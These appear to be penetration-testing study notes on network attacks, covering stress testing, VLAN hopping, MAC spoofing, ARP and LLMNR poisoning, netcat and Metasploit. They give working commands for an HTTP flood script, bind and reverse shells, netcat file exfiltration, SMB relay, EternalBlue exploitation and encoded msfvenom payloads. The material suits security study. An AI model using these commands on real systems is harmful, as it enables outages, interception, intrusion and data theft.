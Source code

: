 ## Importance of Network Attacks
- Impact spans from physical/network devices to application interactions  
- Helps testers validate segmentation, authentication, and service hardening  

---

## Core Lessons & Techniques

### 1. Stress Testing
- **Purpose:** Push systems to their limits to identify DoS points of failure  
- **Load Types:**  
  - CPU (processor-bound loops)  
  - RAM (memory allocations)  
  - Network (packet storms, high-throughput streams)  
- **Scaling Approaches:**  
  - Vertical (↑ CPU, RAM on one server)  
  - Horizontal (add more servers/load balancers)  
- **Tools & Scripts:**  
  - **Python example** (HTTP flood):  
    ```python
    import requests, threading
    def flood(target):
        while True:
            try:
                requests.get(target)
            except:
                pass

    for i in range(100):
        t = threading.Thread(target=flood, args=("http://10.0.0.5/",))
        t.daemon = True
        t.start()

    input("Press Enter to stop…")
    ```  
    
  - **Open-source:** Grinder, Tsung  
  - **SaaS:** LoadView, Loader  

---

### 2. Bypassing Segmentation
- **Why:** Network segments limit blast radius of attacks  
- **Techniques:**  
  - **VLAN Hopping**  
    - *Switch Spoofing:* Present as 802.1Q trunk port  
    - *Double-Tagging:* Two VLAN tags, inner tag routes to victim VLAN  
  - **Multihomed Hosts**  
    - Devices on internal and DMZ segments—pivot points when compromised  
- **Demo Example:**  
  ```bash
  # Scan for inter-VLAN routes via Nmap
  nmap -Pn -p 1433 --traceroute 10.0.1.50
```

- **Mitigation:** Harden trunk configurations, disable auto-trunking

---

### 3. MAC Spoofing

- **Concept:** Forge your NIC’s MAC address to impersonate an allowed device
- **Common Uses:** Bypass MAC-allow lists, evade NAC
- **Commands:**
    
    - **Kali/Linux (macchanger)**
        ```bash
        sudo macchanger -m 00:11:22:33:44:55 eth0    # set specific MAC
        sudo macchanger -r eth0                     # random MAC
        ```

    - **macOS**        
        ```bash
        sudo ifconfig en0 ether 00:11:22:33:44:55
        ```

---

### 4. NAC Bypass

- **NAC Types:**
    - _Persistent agent_ (corp-owned devices)
    - _Non-persistent agent_ (guest-downloaded)
    - _Agentless_ (802.1X, DHCP binding)

- **Bypass Methods:**    
    - Use an already-compliant host as pivot
    - Spoof exempt device MAC (VoIP phone, printer)

---

### 5. Session-Based (On-Path) Attacks

- **Replay:** Capture & resend valid traffic (e.g., auth handshakes)    
- **Relay:** Proxy between client & server (modify in-flight data)
- **Common Techniques:**
    - **ARP Poisoning**
        ```bash
        arpspoof -i eth0 -t 10.0.0.10 10.0.0.1     # poison target’s ARP cache
        echo 1 > /proc/sys/net/ipv4/ip_forward      # enable IP forwarding
        ```
        
    - **LLMNR/NBT-NS Poisoning** (Responder)
        ```bash
        responder -I eth0 -w -r
        ```
        
    - **DNS Spoofing** (dnschef, mitmproxy)

---

### 6. Service Exploitation

- **Certificate Services Attacks:** MD5 collision to spoof certs
- **Misconfigured Services:**
    - Directory listings → `http://10.0.0.5/backups/`
    - SMB shares →
        ```bash
        smbclient -L //10.0.0.5 -U guest        # list shares
        smbclient //10.0.0.5/secrets -U guest  # connect and download
        ```

---

### 7. Packet Crafting

- **Purpose:** Test firewalls / IDS / protocol implementations
- **Tools:** Scapy, Hping, Impacket
- **Scapy Demo (TCP SYN):**
    
    ```python
    from scapy.all import *
    pkt = IP(dst="10.0.0.5")/TCP(dport=22, flags="S")
    send(pkt)
    ```
    
- **SMB Relay (Impacket):**
    ```bash
    ntlmrelayx.py -t smb://10.0.0.5 -smb2support
    ```

---

### 8. Netcat (“Swiss-Army Knife”)

- **Bind Shell (victim listens):**
    ```bash
    # On victim:
    nc -l -p 4444 -e /bin/bash
    # On attacker:
    nc 10.0.0.5 4444
    ```

- **Reverse Shell (victim connects):**    
    ```bash
    # On attacker:
    nc -l -p 4444
    # On victim:
    nc 10.0.0.5 4444 -e /bin/bash
    ```

- **Data Exfiltration:**    
    ```bash
    # Attacker: listen on DNS port
    nc -l -p 53 > stolen.db
    # Victim: exfiltrate file
    nc 10.0.0.2 53 < backup.db
    ```    

---

### 9. Default Credentials

- **Risk:** Unchanged factory passwords → instant takeover
- **Scan & Test:**
    ```bash
    nmap --script default-credentials -p 22,80,443 10.0.0.0/24
    ```
- **Tools:** Hydra, Medusa for automated brute forcing

---

### 10. Metasploit & msfvenom

- **Metasploit Framework:**
    - Exploit modules, payloads, auxiliary scanners
    - **Example:**        
        ```bash
        msfconsole
        use exploit/windows/smb/ms17_010_eternalblue
        set RHOST 10.0.0.5
        set PAYLOAD windows/x64/meterpreter/reverse_tcp
        set LHOST 10.1.1.2
        exploit
        ```

- **msfvenom (payload gen):**    
    ```bash
    msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.1.1.2 LPORT=4444 \
             -f elf -o shell.elf
    ```

- **Encoding (Shikata Ga Nai):**    
    ```bash
    msfvenom -p cmd/unix/reverse_python LHOST=10.1.1.2 LPORT=4444 \
             -e x86/shikata_ga_nai -i 5 -f raw > payload.py
    ```
